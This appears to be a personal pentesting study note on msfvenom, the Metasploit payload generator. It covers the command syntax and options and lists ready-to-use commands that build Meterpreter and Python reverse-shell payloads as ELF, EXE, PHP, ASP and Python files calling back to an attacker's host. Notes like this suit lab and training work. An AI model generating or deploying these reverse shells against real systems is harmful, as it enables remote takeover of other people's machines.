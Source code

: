 **Tags:** #type/tool #tactic/ressource-development
**Link:** 
**Purpose:** generate all kinds of payloads

---
# Info
part of [[3 Tools/Metasploit framework/msfconsole]] framework
Used to generate payloads and reverse shells for many purposes
# Usage
`msfvenom -p <PAYLOAD> <OPTIONS>`
Important options:
`-f`: output file format
`-o`: output file path
`LHOST=`IP of attacker
`LPORT=`port of attacker

**list things** 
possible payloads:`msfvenom --list payloads`
possible formats: `--list payloads`

when generating PHP payload: the starting php tag is commented out delete the comment to make the payload valid

info on listener in [[3 Tools/Metasploit framework/msfconsole]]

## useful payload commands
- linux elf: `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- windows exe: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
- PHP: `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- ASP: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
- unix python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`